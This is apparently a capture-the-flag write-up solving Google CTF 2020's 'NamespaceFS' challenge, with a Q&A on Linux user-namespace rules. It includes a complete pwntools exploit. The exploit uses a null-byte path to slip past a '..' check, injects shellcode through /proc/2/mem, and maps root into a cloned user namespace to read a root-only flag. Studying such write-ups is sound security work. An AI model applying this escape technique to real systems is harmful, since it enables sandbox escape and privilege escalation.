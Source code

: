 # NamespaceFS

**Problem Description:** 

> A remote filesystem with protobufs and namespace-based security. You can find the flag at /home/user/flag (read-only by root)<br>
>
> [Attachment](./f8634094e0c28f5fe74a1d2f3fee2e0cfbbab1f0909e385a6f8db7fe28d3bf4907c984f3895de53455a12fa29e7ad360620db9c37f833e2ffc3957f4cbe96b49)<br>
>
> `namespacefs.2020.ctfcompetition.com 1337`

## Solution

The zipped attachment contained the following files:

- [init](./init)
- [init.c](./init.c)
- [Makefile](./Makefile)
- [nsfs.cc](./nsfs.cc)
- [nsfs.proto](./nsfs.proto)

### TODO

Talk about:

- The program(s), how they worked and what they did
- How breadsticks quickly noticed we can write to files outside of `/tmp/` by using a path with a null-terminator
  - Thanks to the program using `strstr` on `path.c_str()` when checking for `..`
- How this let us write to `init`'s memory (`/proc/2/mem`) to execute code we wanted (flashback to `writeonly` challenge)
- How this still wasn't good enough to read `/home/user/flag` as `init`'s `r/e/suid` was `1338` and not `0` (root)
- How I noticed root was being mapped into `init`'s user namespace as root (`write_xidmap(sandboxPid, "uid_map", {0, kUnprivUid});`)
- How we can't just `setresuid(0, 0, 0)` in `init` because `init` was `execl`'d
- How I noticed:
  1. We can instead make `init` clone with a new user namespace
  2. Map root into the user namespace of the child of `init`
  3. Then have `init`'s child `setresuid` to root and read flag
- Why the protobuf process had to map root into `init`'s child as opposed to `init` itself

### Exploit

Thus, the following [exploit](./solve.py) was crafted:

```python
import nsfs_pb2 as nsfs
from time import sleep
from pwn import *

context.arch = "amd64"

CLONE_NEWUSER = 0x10000000

def send_write(io, path, data, offset=0):
    msg = nsfs.Operation(
        action=nsfs.WRITE,
        path=path,
        data=data,
        offset=offset).SerializeToString()
    io.send(p32(len(msg)) + msg)

if __name__ == "__main__":
    patch = asm(""
        + shellcraft.clone(CLONE_NEWUSER)
        + "test eax, eax\n"
        + "je child\n"
        + shellcraft.infloop()
        + "child:\n"
        + "push 0\n"
        + "push 3\n"
        + shellcraft.nanosleep("rsp")
        + shellcraft.setresuid(0, 0, 0)
        + shellcraft.cat("/home/user/flag")
    )
    io = remote("namespacefs.2020.ctfcompetition.com", 1337)
    send_write(io, "x\0/../../proc/2/mem", patch, 0x401b9b)
    sleep(1.5)
    send_write(io, "x\0/../../proc/4/uid_map", b"0 0 1\n")
    send_write(io, "x\0/../../proc/4/gid_map", b"0 0 1\n")
    io.interactive()
```

**Note:** `protoc --python_out=. nsfs.proto` must be run before running the exploit, to generate `nsfs_pb2.py`

### Flag

```bash
$ python3 solve.py
[+] Opening connection to namespacefs.2020.ctfcompetition.com on port 1337: Done
[*] Switching to interactive mode
write success
write success
write success
CTF{every_year_these_silly_namespaces}
```

### Q&A

The walls of text were taken from [here](https://www.man7.org/linux/man-pages/man7/user_namespaces.7.html).

**Q:** Did you have to `setresuid(0, 0, 0)` as opposed to some other number in `init`'s child?

**A:** Nope, I did not have to. `setresuid(other_num, other_num, other_num)` would have worked just as fine, as long as we wrote `other_num 0 1` to `init`'s child's `uid_map` instead.

**Q:** Why can `init` not `setresuid` to root?

**A:** Due to the following:

```
Note that a call to execve(2) will cause a process's capabilities to
be recalculated in the usual way (see capabilities(7)).
Consequently, unless the process has a user ID of 0 within the
namespace, or the executable file has a nonempty inheritable
capabilities mask, the process will lose all capabilities.
```

**Q:** Why can `init`'s child `setresuid` to root (once root is mapped)?

**A:** Due to the following:

```
The child process created by clone(2) with the CLONE_NEWUSER flag
starts out with a complete set of capabilities in the new user
namespace.
```

**Q:** Why can `init` not map root to its child's user namespace but the protobuf process can?

**A:**  Firstly, remember that `init` has `r/e/suid = 1338` and lost all its capabilities thanks to the `execl`. Then, remember that the protobuf process:

1. Attaches on to `init`'s user namespace (the parent user namespace of `init`'s child)
2. Still has `r/e/suid = 0` in `init`'s user namespace
3. Therefore, it also has `CAP_SETUID` set in `init`'s namespace

Now, please suffer through the following wall of text (like I once had to :smile:):

```
In order for a process to write to the /proc/[pid]/uid_map
(/proc/[pid]/gid_map) file, all of the following requirements must be
met:

1. The writing process must have the CAP_SETUID (CAP_SETGID) capabil‐
  ity in the user namespace of the process pid.

2. The writing process must either be in the user namespace of the
  process pid or be in the parent user namespace of the process pid.

3. The mapped user IDs (group IDs) must in turn have a mapping in the
  parent user namespace.

4. One of the following two cases applies:

  *  Either the writing process has the CAP_SETUID (CAP_SETGID)
     capability in the parent user namespace.

     +  No further restrictions apply: the process can make mappings
        to arbitrary user IDs (group IDs) in the parent user names‐
        pace.

  *  Or otherwise all of the following restrictions apply:

     +  The data written to uid_map (gid_map) must consist of a sin‐
        gle line that maps the writing process's effective user ID
        (group ID) in the parent user namespace to a user ID (group
        ID) in the user namespace.

     +  The writing process must have the same effective user ID as
        the process that created the user namespace.

     +  In the case of gid_map, use of the setgroups(2) system call
        must first be denied by writing "deny" to the
        /proc/[pid]/setgroups file (see below) before writing to
        gid_map.

Writes that violate the above rules fail with the error EPERM.
```

**Q:** Is this exploit possible if root wasn't mapped into `init`'s user namespace?

**A:** I believe this exploit would not have worked if root was not mapped into `init`'s user namespace. As, per the above wall of text, root would not be in the parent's (`init`'s) user namespace for us to be able to map it into the child's user namespace.